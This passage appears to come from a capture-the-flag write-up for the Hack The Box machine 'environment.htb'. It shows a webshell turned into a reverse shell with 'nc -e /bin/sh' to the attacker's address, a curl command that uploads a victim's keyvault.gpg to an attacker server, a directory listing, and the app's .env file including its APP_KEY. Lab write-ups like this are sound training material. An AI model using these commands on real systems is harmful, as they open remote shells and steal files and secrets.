 user.txt is accessible so i dump it

for the next step, I turn my webshell into a revshell like this:
`http://environment.htb/storage/files/webshell1.php?cmd=nc+-e+/bin/sh+10.10.14.123+4848`

via my python exfiltration server, I browse hish’s home and I find keyvault.gpg that I download via curl:
`curl -F 'data=@/home/hish/backup/keyvault.gpg' http://ip:port`

I also go into the application directory: `/var/www/app/`

and observe the files present:

```bash
total 520
drwxr-xr-x  13 www-data www-data   4096 Apr  7 19:58 .
drwxr-xr-x   4 root     root       4096 Apr  7 19:58 ..
-rw-r--r--   1 www-data www-data    258 Jan 12 10:37 .editorconfig
-rw-r--r--   1 www-data www-data   1177 Jan 12 10:42 .env
-rw-r--r--   1 www-data www-data   1099 Jan 12 10:37 .env.example
-rw-r--r--   1 www-data www-data    186 Jan 12 10:37 .gitattributes
-rw-r--r--   1 www-data www-data    285 Jan 12 10:37 .gitignore
-rw-r--r--   1 www-data www-data   4109 Jan 12 10:37 README.md
drwxr-xr-x   6 www-data www-data   4096 Apr  7 19:58 app
-rw-r--r--   1 www-data www-data    350 Jan 12 10:37 artisan
drwxr-xr-x   3 www-data www-data   4096 Apr  7 19:58 bootstrap
-rw-r--r--   1 www-data www-data   2354 Jan 12 10:37 composer.json
-rw-r--r--   1 www-data www-data 299017 Jan 12 10:37 composer.lock
drwxr-xr-x   2 www-data www-data   4096 Apr  7 19:58 config
drwxr-xr-x   5 www-data www-data   4096 Jul  4 23:20 database
drwxr-xr-x 140 www-data www-data   4096 Apr  7 19:59 node_modules
-rw-r--r--   1 www-data www-data 117751 Jan 12 10:37 package-lock.json
-rw-r--r--   1 www-data www-data    378 Jan 12 10:37 package.json
-rw-r--r--   1 www-data www-data   1191 Jan 12 10:37 phpunit.xml
-rw-r--r--   1 www-data www-data     93 Jan 12 10:37 postcss.config.js
drwxr-xr-x   4 www-data www-data   4096 Apr  7 19:58 public
drwxr-xr-x   5 www-data www-data   4096 Apr  7 19:58 resources
drwxr-xr-x   2 www-data www-data   4096 Apr  7 19:58 routes
drwxr-xr-x   5 www-data www-data   4096 Apr  7 19:58 storage
-rw-r--r--   1 www-data www-data    551 Jan 12 10:37 tailwind.config.js
drwxr-xr-x   4 www-data www-data   4096 Apr  7 19:58 tests
drwxr-xr-x  42 www-data www-data   4096 Apr  7 19:58 vendor
-rw-r--r--   1 www-data www-data    377 Jan 12 10:37 vite.config.js
```

so I find a `.env` as well as a database folder `database` and other config

.env:

```
APP_NAME=Laravel
APP_ENV=production
APP_KEY=base64:BRhzmLIuAh9UG8xXCPuv0nU799gvdh49VjFDvETwY6k=
APP_DEBUG=true
APP_TIMEZONE=UTC
APP_URL=http://environment.htb
APP_VERSION=1.1

APP_LOCALE=en
APP_FALLBACK_LOCALE=en
APP_FAKER_LOCALE=en_US

APP_MAINTENANCE_DRIVER=file
# APP_MAINTENANCE_STORE=database

PHP_CLI_SERVER_WORKERS=4

BCRYPT_ROUNDS=12
```